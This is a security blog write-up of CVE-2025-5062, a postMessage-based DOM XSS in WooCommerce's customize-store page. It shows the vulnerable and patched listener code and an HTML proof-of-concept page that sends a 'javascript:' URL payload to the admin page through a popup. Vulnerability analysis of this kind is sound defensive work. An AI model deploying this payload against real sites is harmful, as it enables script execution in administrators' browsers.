

# CVE-2025-5062 Analysis & POC


<!--more-->

## CVE & Basic Info

The WooCommerce plugin for WordPress has a **PostMessage-based Cross-Site Scripting (XSS)** vulnerability via the **'customize-store'** page in all versions up to and including **9.4.2**, due to **insufficiently safe handling of PostMessage data** (no input sanitization and no escaping when output). This allows an **unauthenticated attacker** to inject arbitrary script into the site that will execute if they can trick a user into performing an action, for example **clicking a link**.

* **CVE ID**: [CVE-2025-5062](https://www.cve.org/CVERecord?id=CVE-2025-5062)
* **Vulnerability Type**: Cross Site Scripting (XSS)
* **Affected Versions**: <= 9.3.2 and from 9.4 through 9.4.2
* **Patched Versions**: 9.3.4 and 9.4.3
* **CVSS severity**: Low (6.1)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress WooCommerce Plugin](https://wordpress.org/plugins/woocommerce/)

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Plugin versions** - **WooCommerce**: **9.4.2** (vulnerable) and **9.4.3** (patched).
* **Diff tool** - [**Meld**](https://meldmerge.org/) or any diff/comparison tool to inspect differences between the two versions.

## Analysis

### Patch diff

In the **vulnerable** version, `attachParentListeners()` listens to all messages from any origin without checking the origin; data from the message is assigned directly into the DOM which leads to **PostMessage-Based XSS** (a subtype of **DOM‑based XSS**).

```js
export function attachParentListeners() {
	const listener = ( event ) => {
    if ( event.data.type === 'navigate' ) {
			window.location.href = event.data.url;
    }
	};
  window.addEventListener( 'message', listener, false );
  return () => {
    window.removeEventListener( 'message', listener, false );
  };
}
```

{: file="client/admin/client/customize-store/utils.js v9.4.2"}

In the **patched** version, more checks and restrictions were added compared to the vulnerable version, moving from `"accept every message and redirect straight away"` to `"only accept trusted messages, validate structure and check the URL before navigation"`.

```js
export function attachParentListeners() {
  const allowedOrigins = [ getAdminSetting( 'homeUrl' ) ];

	function handleMessage( event ) {
		// Validate the origin.
		if ( ! allowedOrigins.includes( event.origin ) ) {
			// Blocked message from untrusted origin: event.origin.
			return;
		}

		// Validate the structure of event.data.
		if (
			! event.data ||
			typeof event.data.type !== 'string' ||
			typeof event.data.url !== 'string'
		) {
			// Invalid message structure: event.data.
			return;
		}

		// Only allow the 'navigate' type.
		if ( event.data.type === 'navigate' ) {
      // Validate the URL format.
			try {
				const url = parseAdminUrl( event.data.url );
				// Further restrict navigation to trusted domains.
				if (
					! allowedOrigins.some( ( origin ) => url.origin === origin )
				) {
					throw new Error(
						`Blocked navigation to untrusted URL: ${ url.href }`
					);
				}

				window.location.href = url.href;
			} catch ( error ) {
				// Invalid URL: event.data.url.
				captureException( error );
			}
		}
    }
    window.addEventListener( 'message', handleMessage, false );
    	return function removeListener() {
		window.removeEventListener( 'message', handleMessage, false );
	};
}
```

{: file="client/admin/client/customize-store/utils.js v9.4.3"}


*Diff — Comparison of source changes between the vulnerable and patched versions*

### Vulnerable code

Although I found the source and sink, when analyzing the plugin source after download I initially could not find the function `attachParentListeners()`.


*Search results for attachParentListeners()*

I thought my setup had failed and the code hadn't been fully downloaded. But no — when searching for the keyword `"navigate"` I found a function with a different name but the same functionality as `attachParentListeners()`.


*Search results for "navigate"*

👉 In the product build, to optimize browser load time the plugin used [minification](https://digitalm.sg/seo-terms/minification/) which removes whitespace, renames functions/variables to short names, and partially obfuscates the code making it harder to read.

The downloaded file was named `5292.js` instead of `utils.js`. After beautifying the code, I found `5292.js` contains the `utils.js` code and many other files' code.

Visiting the `customize-store` page and sending a **postMessage** through the browser console:

```
http://localhost/wp-admin/admin.php?page=wc-admin&path=%2Fcustomize-store
```


*An alert() event triggered when postMessage is sent from the browser console*

👉 `alert()` is triggered. Using the browser debugger I checked which file `5292.js` was loaded from in the browser.


*5292.js from browser debugger*

### Sources & Sinks

* **Source**: `event.data` from `window.postMessage` (specifically `event.data.url`)
* **Sink**: `window.location.href = event.data.url`

## Exploit

### Proof of Concept (PoC)

* Create a webpage with the following source:

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>

<body>
    <button id="openPopup">Open Popup</button>

    <script>
        let popup;

        document.getElementById("openPopup").addEventListener("click", () => {
            // Open a popup
            popup = window.open(
                "http://localhost/wp-admin/admin.php?page=wc-admin&path=%2Fcustomize-store", 
                "popupWindow",
                "width=400,height=300"
            );

            // Wait for the popup to load
            const interval = setInterval(() => {
                if (popup && !popup.closed) {
                    // Send message
                    popup.postMessage({ type: 'navigate', url: 'javascript:alert("phu0c ph4m")' }, '*');
                    clearInterval(interval);
                }
            }, 5000);
        });
    </script>
</body>

</html>
```

* An admin visits the webpage and clicks `Open Popup`.
* After 5s, the JavaScript event is triggered.


*JavaScript event from the popup*

👉 Matches the CVE description.

> The popup cannot auto-open without a user interaction
> {: .prompt-info }

Here, an `<iframe>` can't be used because `X-Frame-Options: SAMEORIGIN` is set in the response — only same-origin embedding is allowed.


*X-Frame-Options: SAMEORIGIN is set in the response*

---

## Conclusion

The **CVE-2025-5062** vulnerability in **WooCommerce <= 9.4.2** is a **PostMessage‑based DOM XSS**. An unauthenticated attacker can send a malicious message to the **customize-store** page causing the victim's browser to execute script if the victim interacts (via popup/link). The **9.4.3** patch validates origin, verifies message structure, and whitelists URLs before redirecting.

**Key takeaways**:

* **PostMessage‑based DOM XSS** can execute script when the user interacts (popup/link).
* Data from **postMessage** must always be treated as untrusted.
* Always **validate origin, check the message structure and URL** before redirecting.
* **Update the plugin** to the latest patched version to prevent exploitation.

---

## References

[Cross-site scripting (XSS) cheat sheet — PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress WooCommerce <= 9.3.2 and from 9.4 through 9.4.2 — CVE-2025-5062](https://patchstack.com/database/wordpress/plugin/woocommerce/vulnerability/wordpress-woocommerce-plugin-9-3-2-9-4-9-4-2-postmessage-based-cross-site-scripting)

---


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-10-10-cve-2025-5062/  

